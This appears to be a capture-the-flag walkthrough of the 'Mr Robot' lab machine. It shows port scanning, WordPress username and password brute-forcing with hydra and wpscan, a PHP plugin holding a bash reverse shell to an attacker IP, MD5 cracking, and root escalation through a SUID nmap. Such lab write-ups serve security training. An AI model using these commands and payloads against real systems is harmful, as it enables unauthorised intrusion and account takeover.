


# Mr Robot


## Enumeration


### `nmap` scan

```bash
nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Mr-robot-full-port-scan.txt 192.168.1.25
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:56:5D:6D (Oracle VirtualBox virtual NIC)
```

### HTTP•S (port 80 & 443)


#### `gobuster`

```bash
$ gobuster dir -u http://192.168.1.25 -w /usr/share/dirb/wordlists/common.txt
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 301)
/admin (Status: 301)
/atom (Status: 301)
/audio (Status: 301)
/blog (Status: 301)
/css (Status: 301)
/dashboard (Status: 302)
/favicon.ico (Status: 200)
/feed (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/intro (Status: 200)
/js (Status: 301)
/license (Status: 200)
/login (Status: 302)
/page1 (Status: 301)
/phpmyadmin (Status: 403)
/readme (Status: 200)
/rdf (Status: 301)
/robots (Status: 200)
/robots.txt (Status: 200)
/rss (Status: 301)
/rss2 (Status: 301)
/sitemap (Status: 200)
/sitemap.xml (Status: 200)
/video (Status: 301)
/wp-admin (Status: 301)
/wp-content (Status: 301)
/wp-config (Status: 200)
/wp-includes (Status: 301)
/wp-cron (Status: 200)
/wp-links-opml (Status: 200)
/wp-load (Status: 200)
/wp-mail (Status: 403)
/wp-login (Status: 200)
/wp-signup (Status: 302)
```

#### `nikto`

```bash
$ nikto -h $TARGET
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.25
+ Target Hostname:    192.168.1.25
+ Target Port:        80
+ Start Time:         2021-01-15 21:35:34 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ OSVDB-3092: /admin/: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://192.168.1.25/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /wordpresswp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ /wordpresswp-login.php: Wordpress login found
+ 7915 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2021-01-15 21:37:27 (GMT1) (113 seconds)
---------------------------------------------------------------------------
```

#### robots.txt


- `key-1-of-3.txt`:


> Maybe, we have to to find `key-2-of-3.txt` and `key-3-of-3.txt`

- `fsocity.dic` is just a regular wordlist:

```bash
$ wc -l fsocity.dic 
858160 fsocity.dic
$ head -n 10 fsocity.dic 
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```

We can see there are a lot of duplicates, we can remove them by doing so:

```bash
$ sort -u fsocity.dic | wc -l
11451
$ sort -u fsocity.dic > fsociety_filtered.dic
```

#### wordpress

Thanks `/wp-links-opml.php` (discovered via [gobuster](#gobuster)), we can guess **Wordpress** version (`4.3.25`) and a potential username (`user`):


I tried `wpscan` in order to identify potential vulnerable plugins and/or other users:

```bash
wpscan --url https://192.168.1.25/ --disable-tls-checks --enumerate u 
```

But I didn't get anything. 

##### Finding valid username

If we send some random username/password via `/wp-login.php`, we got an interesting error message:   


We can use that to enumerate some valid usernames by using `hydra` to brute-force:

```bash
$ hydra -L fsociety_filtered.dic -p whatever 192.168.1.25 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```



And we find `elliot` as a valid username. Indeed:


##### Bruteforcing elliott password

With `wpscan`, we can try to find his password:

```bash
$ wpscan --url https://192.168.1.25/ --disable-tls-checks --password-attack wp-login -U elliot -P fsociety_filtered.dic -t 100 
```

And we succeed:


### Reverse shell

I uploaded a new plugin containing the following code:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'");
```


Despite that I encountered an error, the malicious PHP file was successfully uploaded in `/wp-content/uploads`:


I retrieved its location by looking at the **Media Library**:


When we visite the URL [http://192.168.1.25/wp-content/uploads/2021/01/shell.php](http://192.168.1.25/wp-content/uploads/2021/01/shell.php), we have a shell:




### User (`robot`)

```console
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/uploads/2021/01$ 
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5cat password.raw-md5robot:c3fcd3d76192e4007dfb496cca67e13b
```

#### Cracking MD5 using hashcat

```bash
$ hashcat -m 0 files/password.raw-md5 /usr/share/wordlists/rockyou.txt
#...
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
#...
```

Now that we have his password, we can get `key-2-of-3.txt`'s content:

```console
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

### Road to `root`

I executed [linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) to look for possible ways to get `root`. 

Surprisingly, there is `nmap` among the SUID binaries: 


We can check on [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) how we can perform a privesc:


And we are root:

```bash
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
